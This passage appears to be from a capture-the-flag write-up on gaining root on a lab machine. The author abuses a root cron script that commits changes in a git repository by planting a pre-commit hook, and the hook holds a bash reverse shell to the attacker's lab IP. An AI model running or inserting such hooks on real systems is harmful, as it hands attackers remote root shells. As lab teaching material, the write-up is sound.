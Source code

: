 It appeared that some script was committing any changes to the home folder in the repository. To find the script, I used `watch` and `ps` to try and see the running processes. 

```
dev01@opensource:~$ touch test2
dev01@opensource:~$ watch -n 0.5 -d "ps aux | grep git"
```

I waited until the minute changed and saw the script doing the backup run. 

![ps](/assets/images/2022/06/OpenSource/ps.png "ps")

The script `/usr/local/bin/git-sync` was being run by root. So if I could get it to run some custom code, I would be able to get root on the machine. 

```bash
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

The script did not do much. It checked for uncommitted changes in the repository. If it finds any, it would add them to them and commit them before pushing the changes. I did not have permission to modify the script. And there was no writable folder on the path that I could have used to replace which git executable was executed. 

In git, it's possible to use [hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) to run some code when an action happens. I used the pre-commit hook to open a reverse shell whenever the script tried to commit changes to the repository.


```bash
dev01@opensource:~$ cat  .git/hooks/pre-commit
#!/bin/sh

bash -c 'bash -i >& /dev/tcp/10.10.14.143/4444 0>&1'
```
